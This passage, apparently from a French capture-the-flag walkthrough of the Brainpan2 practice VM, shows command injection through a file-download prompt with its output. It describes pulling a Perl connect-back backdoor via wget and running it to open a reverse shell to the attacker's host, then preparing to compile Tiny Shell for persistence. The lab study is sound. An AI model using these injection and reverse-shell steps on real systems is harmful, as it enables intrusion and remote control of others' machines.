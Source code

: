 La commande sous-jacente est un simple *cat*. Il est donc préférable de lui passer un argument avant le point virgule sinon les process zombies risquent de s'entasser sur la machine virtuelle (car *cat* va attendre des données sur l'entrée standard).  

On passera plutôt nos commandes de cette façon :

```plain
                          >> VIEW
    ENTER FILE TO DOWNLOAD: /dev/null;id;uname -a;lsb_release -a
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686 GNU/Linux
Distributor ID: Debian
Description:    Debian GNU/Linux 7.2 (wheezy)
Release:        7.2
Codename:       wheezy
```

Il aurait pu être intéressant de tenter de récupérer le binaire en appelant VIEW sur *brainpan.exe* mais le serveur n’envoie qu'une partie de l'exécutable s'arrêtant sans doute sur un octet nul.  

Grace à notre accès particulier on parvient à déterminer que le programme se trouve dans */opt/brainpan* qui est un dossier appartement à root mais avec le sticky bit (donc tout le monde peut écrire dedans comme dans /tmp).  

On remarque aussi que *wget* est installé :) C'est le moment d'obtenir un accès plus confortable.  

Sur la machine hôte on lance le web-serveur Python (*python -m SimpleHTTPServer 8000*) puis on récupère une backdoor Perl connect-back en injectant une commande *wget* via VIEW sur la machine invitée.  

On ouvre un port via *ncat* sur la machine hôte puis on établie la connexion depuis la machine invitée.  

```plain
                          >> VIEW
    ENTER FILE TO DOWNLOAD: /dev/null;perl dc.pl 192.168.1.3 9999
Data Cha0s Connect Back Backdoor

[*] Dumping Arguments
[*] Connecting...
[*] Spawning Shell
[*] Datached
```

L'utilisateur *anansi* n'a pas grand chose dans son dossier personnel : historique vide et pas de dossier .ssh.  

D'ailleurs SSH est configuré pour écouter sur l'interface loopback sur le port 2222, ce qui nous facilite pas la tache.  

On va plutôt installer un remplaçant de SSH, seulement gcc n'est pas installé sur la machine :(  

On va être obligés de compiler sur la machine hôte puis uploader sur la VM... sauf que je suis en 64bits alors que la Debian est une 32 bits. No problemo !  

On récupère [tsh-0.6 (Tiny Shell)](http://packetstormsecurity.com/files/31650/tsh-0.6.tgz.html), on étudie le *Makefile* et à la section Linux on rajoute *-m32* pour le binaire serveur :
